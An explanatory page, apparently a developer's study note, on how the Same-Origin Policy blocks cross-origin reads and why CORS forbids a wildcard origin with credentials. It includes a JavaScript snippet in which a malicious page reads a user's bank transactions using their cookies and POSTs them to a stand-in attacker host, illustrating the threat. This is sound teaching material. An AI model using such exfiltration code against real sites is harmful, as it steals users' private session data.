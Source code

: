 ## How Would a Cross-Origin Attack Work Without Same-Origin Policy (SOP)?

- imagine a scenario without SOP:
- 🧪 Setup
- You’re logged into your bank (https://bank.com) in one browser tab. Your session is live and you’re authenticated via cookies.
- Meanwhile, you visit https://evilsite.com, which secretly contains JavaScript like:

```
fetch("https://bank.com/account/transactions", {
  credentials: "include"
}).then(response => response.text()).then(data => {
  // Send stolen data to attacker's server
  fetch("https://evilsite.com/steal", {
    method: "POST",
    body: data
  });
});
```

## 😱 What This Does
- Your browser automatically includes your bank session cookie when sending the request to https://bank.com
- Bank returns your private data
- Evil site’s JS reads that response and sends it to the attacker
- This is exactly what Same-Origin Policy stops.
- SOP blocks evilsite.com from reading responses from bank.com.

## So What Does SOP Actually Protect?
- It doesn’t block the request (if allowed by CORS headers)
- It blocks access to the response if origins don’t match and CORS isn’t explicitly configured

## Why You Can’t Use * with Credentials
- This is a critical CORS rule for protecting sessions and cookies.
- The Rule:
- If you send a request with credentials: "include" (i.e., cookies, Authorization headers, etc.),
you cannot use Access-Control-Allow-Origin: *.

```
	Why?
	Because:

	* = allow any origin

	Cookies = tied to user identity
	➡️ Allowing all origins to access user-specific data = huge security hole
```

- Example of What Will Fail:
- Access-Control-Allow-Origin: *
- Access-Control-Allow-Credentials: true
- This will trigger a browser error:
- "Credentialed requests must specify an explicit origin, not *"

## Correct Approach:

- Access-Control-Allow-Origin: https://myfrontend.com
- Access-Control-Allow-Credentials: true

## TL;DR — CORS + Credentials = Extra Secure
- If your app uses Auth headers or cookies, CORS must use:
- Explicit origin, not *
- Access-Control-Allow-Credentials: true
- This ensures only trusted, named origins get access to sensitive sessions